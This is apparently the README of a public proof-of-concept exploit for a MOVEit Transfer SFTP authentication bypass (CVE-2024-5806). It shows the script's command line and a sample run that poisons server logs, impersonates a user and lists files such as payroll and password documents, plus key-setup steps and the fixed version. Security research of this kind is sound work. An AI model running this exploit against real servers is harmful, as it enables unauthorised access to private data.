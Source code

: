 # CVE-2024-5806

Exploit for Progress MOVEit Transfer CVE-2024-5806. See our blog post at [TBD].

# PoC in Action

See `--help` for, well, help. A typical run should look like this:

```
> python CVE-2024-5806.py --target-ip 192.168.1.1 --target-user user2 --ppk id.ppk --pem id
                         __         ___  ___________
         __  _  ______ _/  |__ ____ |  |_\__    ____\____  _  ________
         \ \/ \/ \__  \    ___/ ___\|  |  \|    | /  _ \ \/ \/ \_  __ \
          \     / / __ \|  | \  \___|   Y  |    |(  <_> \     / |  | \/
           \/\_/ (____  |__|  \___  |___|__|__  | \__  / \/\_/  |__|
                                  \/          \/     \/

        CVE-2024-5806.py
        (*) Progress MoveIT Transfer SFTP Authentication Bypass (CVE-2024-5806)
          - Aliz Hammond, watchTowr (aliz@watchTowr.com)
          - Sina Kheirkhah (@SinSinology), watchTowr (sina@watchTowr.com)
        Note: We (watchTowr) aren't the original discoverers of the bug, we just reproduced it and wrote the exploit
              in order to enable proactive protection of client attack surfaces.
              We will update with proper credit when available.
        CVEs: [CVE-2024-5806]

(*) Poisoning log files multiple times to be sure...
..........OK
(*) Waiting 60 seconds for logs to be flushed to disk
(*) Attempting to authenticate..
(*) Trying to impersonate user2 using the server-side file path 'C:\MOVEitTransfer\Logs\DMZ_WEB.log'
(+) Authentication succeeded.
(+) Listing files in home directory of user user2:

-rw-rw-rw- 1 0 0 1.4M Jun 11 11:39 stocks.xlsx
-rw-rw-rw- 1 0 0 2.4M Jun 13 13:32 customer_list.xlsx
-rw-rw-rw- 1 0 0 2.3M Jun 15 12:16 payroll_Jun.csv
-rw-rw-rw- 1 0 0 1.2M Jan 21 10:03 my_signature.png
-rw-rw-rw- 1 0 0  304 Jun 17 17:29 passwords.txt
```


# Setup
To run the exploit, you'll need a keypair in both PEM and PPK format. On Windows, you can use `puttygen` to generate these files. On Linux, you can use `openssh` and `putty-tools` package. Just hit enter when prompted for a key.

```bash
$ sudo apt-get install openssh-client putty-tools
$ puttygen -t rsa -b 2048 -o putty_key.ppk
Enter passphrase to save key:
Re-enter passphrase to verify:
$ puttygen putty_key.ppk -O private-openssh -o id_rsa
```

# Affected Versions

This vulnerability is fixed in Progress MOVEit version `2024.0.2`.

# Exploit authors

This exploit was written by [Aliz (@AlizTheHax0r)](https://x.com/AlizTheHax0r) and [Sina Kheirkhah (@SinSinology)](https://x.com/SinSinology) of [watchTowr (@watchtowrcyber)](https://twitter.com/watchtowrcyber) 

# Follow [watchTowr](https://watchTowr.com) Labs
For the latest security research follow the [watchTowr](https://watchTowr.com) Labs Team 

- https://labs.watchtowr.com/
- https://twitter.com/watchtowrcyber
- [blog link TBD]
